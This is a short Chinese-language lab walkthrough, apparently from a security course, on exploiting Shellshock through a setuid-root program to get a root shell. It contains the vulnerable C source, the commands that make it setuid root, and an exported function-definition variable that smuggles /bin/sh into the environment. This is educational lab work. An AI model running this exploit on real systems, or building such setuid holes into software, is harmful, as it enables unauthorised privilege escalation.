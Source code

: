 # 攻击Set-UID获取root权限

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

void main()
{
    setuid(geteuid());
    system("/bin/ls -l");
}
```
```bash
sudo ln -sf /bin/bash /bin/sh
gcc vul.c -o vul
./vul
sudo chown root vul
sudo chmod 4755 vul
./vul
export foo='() { echo hello; }; /bin/sh'
./vul
```
就得到root权限的shell：
![setuid攻击](../img/shellshock-vul.png)

!!! Note

    system()函数原理：system会调用fork()函数创建子进程，然后使用execl()函数执行/bin/sh程序，
    最终请求shell程序执行/bin/ls指令。


!!! warning

    如果用vagrant创建的虚拟机，注意/vagrant目录下是不能chown成root的，必须换一个目录  
    输入函数时注意大括号前后有空格 